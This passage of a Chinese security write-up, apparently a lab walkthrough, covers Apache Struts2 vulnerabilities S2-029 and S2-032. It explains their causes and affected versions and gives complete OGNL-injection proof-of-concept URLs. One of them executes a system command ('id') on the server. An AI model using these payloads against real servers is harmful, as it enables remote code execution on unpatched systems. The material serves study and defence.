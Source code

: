 ##### struts2会解析value中的值，并当作OGNL表达式进行执行，获取到parameters对象的msg属性。S2-029依然是依靠OGNL进行远程代码执行。

#### 影响版本

```php
Struts 2.0.0 - 2.3.24.1ҁӧ۱ೡ2.3.20.3
```

#### 启动漏洞

![image-20210711142833577](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-21334bd4ecf30adfc0f2926c67133aea7d98dc44.png)

#### poc

```php
http://192.168.0.109:8889/default.action?message=(%23_memberAccess[%27allowPrivateAccess%27]=true,%23_memberAccess[%27allowProtectedAccess%27]=true,%23_memberAccess[%27excludedPackageNamePatterns%27]=%23_memberAccess[%27acceptProperties%27],%23_memberAccess[%27excludedClasses%27]=%23_memberAccess[%27acceptProperties%27],%23_memberAccess[%27allowPackageProtectedAccess%27]=true,%23_memberAccess[%27allowStaticMethodAccess%27]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream()))
```

![image-20210711143443386](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-66376f248db11b33d4b65f12e5c36aaee467cd91.png)

### 4.12 S2-032远程代码执行漏洞

#### 漏洞原理

##### 当启用动态方法调用时，可以传递可用于在服务器端执行任意代码的恶意表达式。 method:&lt;name&gt; Action 前缀去调用声明为 public 的函数，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会。

#### 影响版本

```php
Struts 2.3.20-Struts Struts 2.3.28(2.3.20.3和2.3.24.3除外)
```

#### 启动漏洞

![image-20210711144332238](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ed753846572eab6ac4b0a4878e12ad9f76120ab6.png)

![image-20210711144420429](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e03d1652f20bf41ae74f0e40fd80b7bc6123c27c.png)

#### poc-1

```php
http://192.168.0.109:8080/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23context[%23parameters.obj[0]].getWriter().print(%23parameters.content[0]%2b602%2b53718),1?%23xx:%23request.toString&amp;obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&amp;content=10010
```

